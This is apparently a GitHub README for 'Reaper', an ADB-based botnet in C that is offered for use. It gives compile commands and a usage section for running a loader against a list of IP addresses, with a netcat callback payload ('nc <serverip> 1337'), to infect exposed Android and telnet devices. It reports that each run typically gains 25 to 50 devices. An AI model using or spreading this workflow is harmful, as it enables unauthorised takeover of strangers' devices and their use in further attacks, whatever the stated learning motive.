 <h1 align="center">
	<img src="https://static.thenounproject.com/png/4050176-200.png" width="150px"><br>
    Reaper - An ADB-based botnet written in C.
</h1>
<p align="center">
	Reaper is an ADB-based botnet that lets you control the devices you infect, execute commands, and contains extra tools for playing around. It isn't just limited 
	to ADB, it can be used as a telnet botnet, or a regular botnet.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
     </a>
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Deno-1.0.0+-7DCDE3?style=for-the-badge" alt="Node">
     </a>
</p>

## Why?

Here are few reasons why I made this:
```
- I wanted to learn more about botnets.
- I wanted to make something that will help other people understand and learn more about botnets.
- I wanted to make my own from scratch, because most botnets that are available on github are all variants of mirai or qbot.
```
Extra Facts:
```
- Yes, I know, I could've used epoll, but I didn't want to make things super-complicated and annoying.
- No, this does not contain any DDoS methods, If you want to customize this and add your own, then you are free to do so.
```

## Installation
```
gcc -o reaper reaper.c -lpthread -lcurl
gcc -o client client.c
```

## Usage
After you have authenticated with the botnet and are waiting for connections, run this command -> `python3 loader.py droid.txt`. Make sure you have edited in your payload in the loader script. (It can be something as simple as `nc <serverip> 1337`) Wait around 5-15 minutes, and you should have devices connected. Even though the custom list I made is small and only has 96 IP's, on average, it pulls around 25 - 50 devices. Please remember, you don't have to limit yourself to only android devices, if you want to use a telnet list, it will also work.

## Screenshots
![Screenshot_2021-08-21-05-36-18_922x559](https://user-images.githubusercontent.com/86132648/130317740-f9882527-6632-4529-b776-dd224e7bc6ef.png)
![Screenshot_2021-08-18-06-41-40_893x237](https://user-images.githubusercontent.com/86132648/130317747-3e312623-450b-4a04-8bad-a9ebe8247491.png)

## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
